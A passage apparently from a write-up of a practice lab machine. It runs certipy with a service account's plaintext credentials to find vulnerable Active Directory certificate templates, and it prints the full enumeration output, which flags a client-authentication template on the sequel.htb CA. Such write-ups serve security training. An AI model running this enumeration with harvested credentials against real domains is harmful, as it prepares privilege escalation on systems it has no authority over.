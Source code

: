 <br />

So it should be able to run `certipy`.

If we run it, there is a vulnerable template:

<br />

```bash
❯ certipy find -vulnerable -u ca_svc -p 'Password123!' -dc-ip 10.10.11.51 -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'sequel-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'sequel-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sequel-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'sequel-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : sequel-DC01-CA
    DNS Name                            : DC01.sequel.htb
    Certificate Subject                 : CN=sequel-DC01-CA, DC=sequel, DC=htb
    Certificate Serial Number           : 152DBD2D8E9C079742C0F3BFF2A211D3
    Certificate Validity Start          : 2024-06-08 16:50:40+00:00
    Certificate Validity End            : 2124-06-08 17:00:40+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : SEQUEL.HTB\Administrators
      Access Rights
        ManageCertificates              : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        ManageCa                        : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Enroll                          : SEQUEL.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : DunderMifflinAuthentication
    Display Name                        : Dunder Mifflin Authentication
    Certificate Authorities             : sequel-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireCommonName
                                          SubjectAltRequireDns
    Enrollment Flag                     : AutoEnrollment
                                          PublishToDs
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1000 years
```